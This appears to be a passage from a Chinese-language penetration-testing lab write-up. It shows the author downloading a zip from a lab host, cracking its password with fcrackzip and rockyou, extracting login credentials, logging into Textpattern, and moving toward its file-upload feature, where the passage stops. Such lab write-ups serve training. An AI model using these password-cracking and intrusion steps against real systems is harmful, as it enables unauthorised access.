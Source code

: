 > ![image](https://hackmd.io/_uploads/HJk0-jqnke.png)

### 2. wget zip
總結上述 recon，先從題目提示 robots 下手
```
┌──(chw㉿CHW)-[~]
└─$ wget http://192.168.171.219/spammer.zip

┌──(chw㉿CHW)-[~]
└─$ unzip spammer.zip               
Archive:  spammer.zip
[spammer.zip] creds.txt password:
```
> 需要密碼

### 3. fcrackzip
```
┌──(chw㉿CHW)-[~]
└─$ fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt spammer.zip

found file 'creds.txt', (size cp/uc     27/    15, flags 1, chk b003)


PASSWORD FOUND!!!!: pw == myspace4

```
> `spammer.zip`:`myspace4`

解壓縮 `spammer.zip`
```
┌──(chw㉿CHW)-[~]
└─$ unzip spammer.zip                                                 
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
 extracting: creds.txt                                                                                             
┌──(chw㉿CHW)-[~]
└─$ cat creds.txt                                                    
mayer:lionheart  
```
嘗試用帳密登入 `/textpattern/textpattern/index.php`

### 4. Login textpattern
![image](https://hackmd.io/_uploads/BycEroq31l.png)
#### 4.1 Articles Page
在 Articles 一篇文章介紹功能：\
![image](https://hackmd.io/_uploads/rJJM8jq3kg.png)

#### 4.2 利用 file upload
http://192.168.171.219/textpattern/textpattern/index.php?event=file
